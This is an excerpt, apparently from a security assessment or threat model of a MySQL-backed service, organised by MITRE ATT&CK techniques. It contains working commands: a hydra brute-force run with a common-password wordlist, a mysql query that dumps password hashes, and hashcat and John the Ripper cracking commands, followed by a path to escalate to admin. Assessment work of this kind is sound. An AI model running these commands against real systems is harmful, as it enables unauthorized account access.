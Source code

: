 **T1552.004: Unsecured Credentials - Private Keys**
- **Description:** Credentials in environment variables
- **Location:** `.env` file, docker-compose.yml
- **Accessed via:** Container breakout, file read vulnerability

---

**T1110.001: Brute Force - Password Guessing**
- **Description:** Weak passwords vulnerable to dictionary attacks
- **Examples:**
  - `password`, `admin123`, `Welcome123!`
  - Pattern: `[Service]123!` or `[Service]2024`

**Attack:**
```bash
# Wordlist of common patterns
cat > passwords.txt <<EOF
admin
admin123
admin2024
password
password123
Welcome123
Welcome123!
backup
backup123
EOF

# Brute force
hydra -l root -P passwords.txt mysql://target-host
```

---

**T1110.002: Brute Force - Password Cracking**
- **Description:** MD5 hashes easily cracked
- **Method:**
```bash
# Extract hashes
mysql -u reporting -preports -e "SELECT password_hash FROM users" > hashes.txt

# Crack with hashcat
hashcat -m 0 -a 0 hashes.txt rockyou.txt

# Or John the Ripper
john --format=Raw-MD5 --wordlist=rockyou.txt hashes.txt
```

**Speed:** Modern GPU cracks MD5 at ~60 billion hashes/second

---

#### Privilege Escalation

**T1078.003: Valid Accounts - Local Accounts**
- **Description:** Escalate from low-priv to admin
- **Path:**
  1. Compromise `reporting` (read-only)
  2. Read `comments` table
  3. Find plaintext `db_admin_password`
  4. Authenticate as admin

---